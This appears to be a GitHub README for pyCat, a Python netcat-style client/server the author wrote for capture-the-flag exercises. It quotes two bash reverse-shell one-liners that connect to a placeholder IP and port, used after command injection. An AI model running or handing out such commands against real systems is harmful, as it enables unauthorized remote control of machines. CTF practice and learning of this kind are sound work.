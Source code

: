 # pyCat
Simple python-based client/server for interacting with remote systems.

Why pyCat?
----------
Many times in my CTF adventures, I would find Netcat installed, but the '-e' option wouldn't be available. 

Yes, I know there are other ways to get reverse-shell when you have command-injection on a system, but I really like the ease of Netcat. 

Plus sometimes the shells I get using... 

  `bash -i >& /dev/tcp/IP/PORT 0>&1`
  
  or 
  
  `/bin/bash -c '/bin/bash>/dev/null/IP/PORT 2>&1 0>&1'`
  
...can be inconsistent in the way they act from time to time.



So, I found myself wanting to have a stand-alone executable of Netcat for Linux systems, but didn't find one after searching for a **SOLID** 10 minutes. It also had the added benefit of being a good way to learn more Python.

I will be attempting to make this work on Windows operating systems, so keep an eye out for that version soon.


Thanks to **Justin** for helping me debug the socket connection.
